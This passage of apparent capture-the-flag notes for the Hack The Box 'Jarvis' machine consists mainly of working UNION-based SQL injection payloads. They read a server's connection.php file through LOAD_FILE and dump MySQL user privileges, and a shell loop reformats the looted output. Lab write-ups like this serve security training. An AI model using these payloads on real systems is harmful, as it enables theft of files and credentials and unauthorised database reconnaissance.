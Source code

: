 ## Load File
- POST
	```
	-1 UNION SELECT 1,TO_base64(LOAD_FILE('/var/www/html/connection.php')),3,4,5,6,7 #
	```
- GET
	```
	-1+UNION+SELECT+1,TO_base64(LOAD_FILE('/var/www/html/connection.php')),3,4,5,6,7 #
	```

## List all Privileges
- GET
	```
	-1+UNION+SELECT+1,group_concat(host,":",user,":",Select_priv,":",Insert_priv,":",Update_priv,":",Delete_priv,":",Create_priv,":",Drop_priv,":",Reload_priv,":",Shutdown_priv,":",Process_priv,":",File_priv,":",Grant_priv,":",References_priv,":",Index_priv,":",Alter_priv,":",Show_db_priv,":",Super_priv,":",Create_tmp_table_priv,":",Lock_tables_priv,":",Execute_priv,":",Repl_slave_priv,":",Repl_client_priv),3,4,5,6,7+FROM+mysql.user;--+list+user+privs
	```
- POST
	```
	-1 UNION SELECT 1,group_concat(host,":",user,":",Select_priv,":",Insert_priv,":",Update_priv,":",Delete_priv,":",Create_priv,":",Drop_priv,":",Reload_priv,":",Shutdown_priv,":",Process_priv,":",File_priv,":",Grant_priv,":",References_priv,":",Index_priv,":",Alter_priv,":",Show_db_priv,":",Super_priv,":",Create_tmp_table_priv,":",Lock_tables_priv,":",Execute_priv,":",Repl_slave_priv,":",Repl_client_priv),3,4,5,6,7 FROM mysql.user; -- list user privs
	```
- Organize it
	```
	# Copy output from burp
	
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# nano privs
	# PASTE THIS
	host:user:Select_priv:Insert_priv:Update_priv:Delete_priv:Create_priv:Drop_priv:Reload_priv:Shutdown_priv:Process_priv:File_priv:Grant_priv:References_priv:Index_priv:Alter_priv:Show_db_priv:Super_priv:Create_tmp_table_priv:Lock_tables_priv:Execute_priv:Repl_slave_priv:Repl_client_priv
	localhost:DBadmin:Y:Y:Y:Y:Y:Y:Y:Y:Y:Y:N:Y:Y:Y:Y:Y:Y:Y:Y:Y:Y
	
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# for x in {1..23}; do cat privs| cut -d ':' -f$x | tr '\n' ':'|sed 's/:$/\n/'; done
	host:localhost
	user:DBadmin
	Select_priv:Y
	Insert_priv:Y
	Update_priv:Y
	Delete_priv:Y
	Create_priv:Y
	Drop_priv:Y
	Reload_priv:Y
	Shutdown_priv:Y
	Process_priv:Y
	File_priv:Y
	Grant_priv:N
	References_priv:Y
	Index_priv:Y
	Alter_priv:Y
	Show_db_priv:Y
	Super_priv:Y